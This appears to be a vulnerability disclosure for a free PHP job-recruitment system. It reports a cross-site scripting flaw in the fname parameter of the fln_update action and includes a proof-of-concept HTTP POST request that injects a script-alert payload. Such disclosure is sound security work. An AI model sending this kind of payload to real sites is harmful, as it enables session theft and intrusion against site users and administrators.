 # job-recruitment-in-php has Cross Site Scripting vulnerability in $fname 

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
echo fname parameter in fln_update function

## describe

echo fname parameter, There is a cross-site scripting attack  vulnerability in Job-recruitment system. The parameter that can be controlled is: fname   parameter . A malicious attacker can obtain sensitive information about administrators.

**Code analysis** 



get fname parameter from post, and echo cname in no filtter.

![image-20241226203338707](https://github.com/user-attachments/assets/953a5255-2c06-4356-ab12-099bc5f8ef3a)

## POC

```
POST /_parse/_all_edits.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=etso55q58ionvmrvpetmaf8urt
Upgrade-Insecure-Requests: 1
Priority: u=0, i

action=fln_update&fname=<script>alert(1);</script>
```

**Result**

![image-20241226014042311](https://github.com/user-attachments/assets/4e99c0fa-aee2-4ae1-84ed-8e5c1c82cd42)